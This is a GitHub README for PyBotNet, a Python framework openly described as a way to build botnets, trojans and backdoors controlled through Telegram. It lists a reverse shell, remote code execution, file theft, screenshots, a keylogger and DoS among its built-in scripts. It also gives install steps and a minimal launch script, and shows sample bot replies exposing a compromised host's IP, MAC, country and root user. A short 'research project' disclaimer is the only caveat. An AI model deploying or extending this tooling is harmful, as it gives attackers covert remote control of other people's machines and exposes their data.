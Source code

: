 
 <p align="center">
    <a href='https://github.com/onionj/pybotnet' target='_blank'><img src='https://files.virgool.io/upload/users/271869/posts/wxs2bk9hkqfx/ezoxwssoikqm.jpeg' border='5' alt='trojan horse'/></a>
    <h1 align="center">PyBotNet</h1>
    <p align="center"> 
    A Python framework for building <b>remote control</b>, <b>botnet</b> , <b>trojan</b>  or <b>backdoor</b> with Telegram or other control panels
    </p>
  <p align="center">
    <a href="https://github.com/onionj/pybotnet">
      <img src="https://img.shields.io/pypi/v/pybotnet?label=pybotnet" />
    </a>
    <a href="https://github.com/onionj/pybotnet/blob/master/LICENSE">
      <img src="https://img.shields.io/github/license/onionj/pybotnet" />
    </a>
    <a href="https://www.python.org/">
    	<img src="https://img.shields.io/pypi/pyversions/pybotnet" />
    </a>
   </p>
   <p align="center">
    <a href="https://www.pepy.tech/projects/pybotnet">
      <img src="https://static.pepy.tech/badge/pybotnet" />
    </a>
    <a href="https://www.pepy.tech/projects/pybotnet">
      <img src="https://static.pepy.tech/badge/pybotnet/month" />
    </a>
    <a href="https://www.pepy.tech/projects/pybotnet">
      <img src="https://static.pepy.tech/badge/pybotnet/week" />
    </a>
   </p>
</p>
 

> Disclaimer: Please note that this is a research project. I am by no means responsible for any usage of this tool. Use it on your behalf!. 

---

**Source Code**: <a href="https://github.com/onionj/pybotnet" target="_blank">https://github.com/onionj/pybotnet</a>

**Documentation**: <a href="https://onionj.github.io/pybotnet/" target="_blank">https://onionj.github.io/pybotnet/</a>
**Deep Wiki (AI Generated Documentation)**: <a href="https://deepwiki.com/onionj/pybotnet" target="_blank">https://deepwiki.com/onionj/pybotnet</a>

**ToDo List**: <a href="https://github.com/users/onionj/projects/1" target="_blank">https://github.com/users/onionj/projects/1</a>

https://deepwiki.com/onionj/pybotnet
---

### Features:
* Built in Telegram control pannel and proxy system
* Built in scripts like:
    * reverse shell
    * put or get file
    * run python code on target systems
    * get screenshot
    * keylogger
    * dos
    * scheduler
    * ...
* Cross platform
* Ability to easily add custom scripts
* Import external scripts
* Ability to add custom control panel
* Add remote control to your apps
* [...](https://onionj.github.io/pybotnet/)


### Install PyBotNet

```console
pip3 install pybotnet -U
```

* `-U`: make sure to upgrade framework to latest version.


#### The simplest PyBotNet file could look like this:


```py title="main.py"
# in main.py
from pybotnet import BotNet, TelegramEngine


telegram_engine = TelegramEngine(token=TELEGRAM_TOKEN, admin_chat_id=ADMIN_CHAT_ID) #(1)

botnet = BotNet(telegram_engine) # (2)
botnet.run()
```

1. create engine: Engines transfer messages between admin and botnet
2. create BotNet instance


#### note:
  * `TELEGRAM_TOKEN`: You can use telegram `@botfather` to Create new telegram API Bot and get your `TELEGRAM_TOKEN` 
  * `ADMIN_CHAT_ID`: Get it from @userinfobot telegram bot
  * PyBotNet include default scripts, like: `/shell`, `/put_file`, `/get_file`, `/screenshot`, `/who`, ...,
    you can send `/help` to your telegram bot and see more detail..

#### Run code:

```console 
python3 main.py
```

#### telegram engine

open telegram and send `/who` command to your bot; If you have done the steps correctly, you recive a message like this:

```
scripts_name:
    echo
    who
    shell
    screenshot
    put_file
    get_file
    runcode
    openurl
    dos
    schedule

mac_addres: 228362405364
os: Linux
global_ip: 5.10.30.35
country: Iran, Islamic Republic of
bot_name: no_name
local_ip: {'192.168.23.1'}
host_name: {'system_name'}
system_user: root
up_time: 0:00:01
current_route: /
pid: 148352
cpu_count: 8
pybotnet_version: 2.0.8b0
from cache: True
```


you can send `/help` to see help page, or send `/help <script_name>` to recive more help about a specific script.

for example send `/help screenshot`, You will receive:

```
NAME:
screenshot

DESCRIPTION:
get screen shot
    * `[mac-address] /screenshot`
    or
    * `/screenshot`

    example command: 
        * `94945035671481 /screenshot`
        * `/screenshot` 

    return: img or img-download-link
    

script_version: 0.0.1
default_script: True

___________________________
scripts_name: ['echo', 'who', 'shell', 'screenshot', 'put_file', 'get_file', 'runcode', 'openurl', 'dos', 'schedule']
mac_addres: 228362405364
os: Linux
global_ip: 5.10.30.35
country: Iran, Islamic Republic of
bot_name: no_name
use_proxy: False
```

in top of message you see script name, description, syntax, and examples.

for run screenshot script you have two choice:

* Run the script on all clients that are listening to Telegram bot (for now we have one!)
* Run script on one specific system

for run script on all client send `/screenshot`.

bot if you need to get screen-shot on a specific system you need to send `[mac_addres] /screenshot` for our case: `228362405364 /screenshot`

in some case like `/shell` you need to run it just for one system.


For see who we can `Add custom scripts`, `Run in background`, `Running the pybotnet without coding`, and etc, see the below documentation.

### *For more, see [Documentation](https://onionj.github.io/pybotnet/)*


---

## Contributors ✨
Thanks goes to these wonderful people :

<table>
<td align="center"><a href="https://github.com/TorhamDev"><img src="https://avatars.githubusercontent.com/u/87639984?v=4" width="70px;" alt=""/><br /><sub><b> TorhamDev</b></sub></a><br /></td>
<td align="center"><a href="https://github.com/SepehrRasouli"><img src="https://avatars.githubusercontent.com/u/81516241?v=4" width="70px;" alt=""/><br /><sub><b> SepehrRasouli</b></sub></a><br /></td>
</table>

